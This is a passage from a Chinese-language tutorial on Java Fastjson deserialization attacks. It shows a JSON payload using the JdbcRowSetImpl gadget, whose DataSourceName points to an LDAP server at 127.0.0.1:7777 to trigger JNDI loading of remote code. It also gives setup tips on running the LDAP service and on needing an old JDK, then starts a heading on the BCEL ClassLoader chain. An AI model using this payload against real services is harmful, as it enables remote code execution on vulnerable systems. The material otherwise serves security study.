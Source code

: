 该方法在BaseRowSet类里，但没关系，因为JdbcRowSetImpl类继承了BaseRowSet类。下面我们直接写链子就好了：

首先指定JdbcRowSetImpl类，之后给DataSourceName和AutoCommit赋值：

```java
String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:7777/TestRef\",\"autoCommit\":true}";
JSONObject jsonObject = JSON.parseObject(s);
System.out.println(jsonObject);
```

运行之前注意用7777端口开一个ldap服务就好了（代码放在文章最后）：
<img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711853866427.png" alt="1711853866427" style="zoom: 50%;" />

（此处有个坑点，就是需要确保jdk1.8的版本足够低，不然就会报错java.lang.ClassCastException: javax.naming.Reference cannot be
cast to javax.sql.DataSource）

#### 1.2 Bcel_ClassLoader链

<img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711855547250.png" alt="1711855547250" style="zoom:50%;" />
